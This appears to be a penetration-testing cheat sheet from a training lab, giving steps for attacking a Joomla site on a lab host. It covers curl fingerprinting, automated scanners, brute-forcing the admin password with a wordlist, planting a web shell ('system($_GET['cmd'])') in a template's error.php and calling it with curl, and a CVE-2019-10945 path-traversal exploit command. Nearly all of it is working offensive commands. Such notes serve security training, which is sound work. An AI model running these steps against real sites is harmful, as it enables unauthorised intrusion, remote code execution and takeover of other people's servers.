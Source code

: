 ## Info 

**Admin Url**:`http://dev.inlanefreight.local/administrator`
**Vuln Count**:`485 vulnerabilities found`

## Enumeration

**Check Install**

`[!bash!]$ curl -s http://dev.inlanefreight.local/ | grep Joomla`

**Robots.txt**
```
# If the Joomla site is installed within a folder# eg www.example.com/joomla/ then the robots.txt file# MUST be moved to the site root# eg www.example.com/robots.txt# AND the joomla folder name MUST be prefixed to all of the# paths.# eg the Disallow rule for the /administrator/ folder MUST# be changed to read# Disallow: /joomla/administrator/#
# For more information about the robots.txt standard, see:# https://www.robotstxt.org/orig.htmlUser-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

**Version Fingerprinting**

`[!bash!]$ curl -s http://dev.inlanefreight.local/README.txt | head -n 5`

`[!bash!]$ curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -`

**Automated Scanners**

```
[!bash!]**$** droopescan scan joomla --url http://dev.inlanefreight.local/

[!bash!]**$** python2.7 joomlascan.py -u http://dev.inlanefreight.local
```

**Brute Forcing**

**Default user**: `admin`

`[!bash!]$ sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin`

## Attacking

**Code Execution**

`Configuration`> `Templates` > `eg:protostar` > `Templates: Customise` > `error.php` > `system($_GET['cmd']);`

`[!bash!]$ curl -s http://dev.inlanefreight.local/templates/protostar/error.php?cmd=id`

**CVE-2019-10945**

- Path Traversal
- https://www.exploit-db.com/exploits/46710
- `[!bash!]$ python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /`
